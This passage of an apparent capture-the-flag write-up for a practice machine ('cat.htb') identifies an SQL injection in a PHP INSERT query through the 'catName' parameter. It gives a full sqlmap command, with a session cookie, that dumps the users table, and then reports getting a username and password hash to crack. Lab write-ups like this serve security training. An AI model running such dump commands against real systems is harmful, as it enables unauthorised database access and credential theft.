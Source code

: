 ```php
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>

```

The following lines directly inserts the data to the database without a proper sanitization:

```php
if (isset($_POST['catId']) && isset($_POST['catName'])) {
    $cat_name = $_POST['catName'];
    $catId = $_POST['catId'];
    $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
    $pdo->exec($sql_insert);
```


Our vulnerable parameter is `catName`, we can use `sqlmap` in the following way knowing all this:

```
sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID=801vfm5g8gtq70mcf4aosm7iov" -p catName --level=5 --risk=3 --dbms=SQLite --technique=B -T "users" --threads=4 --dump
```

If we check the output we can notice this:

![Pasted image 20250416123555.png](../../IMAGES/Pasted%20image%2020250416123555.png)

So, we got an username `rosa`, and a hash, let's crack the hash:

![Pasted image 20250416123641.png](../../IMAGES/Pasted%20image%2020250416123641.png)
